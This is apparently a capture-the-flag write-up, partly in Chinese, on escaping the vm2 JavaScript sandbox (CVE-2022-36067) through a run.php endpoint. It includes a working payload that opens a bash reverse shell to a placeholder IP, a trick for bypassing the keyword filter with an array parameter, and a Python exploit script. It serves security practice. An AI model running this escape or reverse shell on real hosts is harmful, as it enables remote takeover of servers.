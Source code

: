 ![[Pasted image 20230203085920.png|500]]

![[Pasted image 20230203090337.png|700]]

```
/run.php?code=phpinfo();
```

```
ReferenceError: phpinfo is not defined
```

![[Pasted image 20230203090553.png|500]]

```
/run.php?code=new Error().stack
```

![[Pasted image 20230203090731.png|700]]

[GHSA-mrgp-mrhc-5jrq](https://github.com/patriksimek/vm2/security/advisories/GHSA-mrgp-mrhc-5jrq)

> vm2 is a sandbox that can run untrusted code with whitelisted Node's built-in modules. In versions prior to version 3.9.11, a threat actor can bypass the sandbox protections to gain remote code execution rights on the host running the sandbox. This vulnerability was patched in the release of version 3.9.11 of vm2. There are no known workarounds.

参考 [Enter "Sandbreak" - Vulnerability In vm2 Sandbox Module Enables Remote Code Execution (CVE-2022-36067)](https://www.oxeye.io/blog/vm2-sandbreak-vulnerability-cve-2022-36067)

```javascript
globalThis.OldError = globalThis.Error;
globalThis.Error = {};
globalThis.Error.prepareStackTrace = function (errStr, traces) {
    traces[0].getThis().process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');
}
const {stack} = new globalThis.OldError();
```

通过替换大法让虚假的`prepareStackTrace`得到执行

![[Pasted image 20230203100235.png|300]]

题目存在关键词过滤，通过传递参数数组绕过

# exp

```python
import requests
from urllib.request import quote

url = 'http://xxx.node4.buuoj.cn:81/run.php?code[]={}'

payload = '''globalThis.OldError = globalThis.Error;
globalThis.Error = {};
globalThis.Error.prepareStackTrace = function (errStr, traces) {
    traces[0].getThis().process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');
}
const {stack} = new globalThis.OldError();'''

requests.get(url.format(quote(payload)))
```

![[Pasted image 20230203101146.png|500]]

#Web #nodejs #js #vm2 #Vulnerabilities #escape #RCE #反弹shell 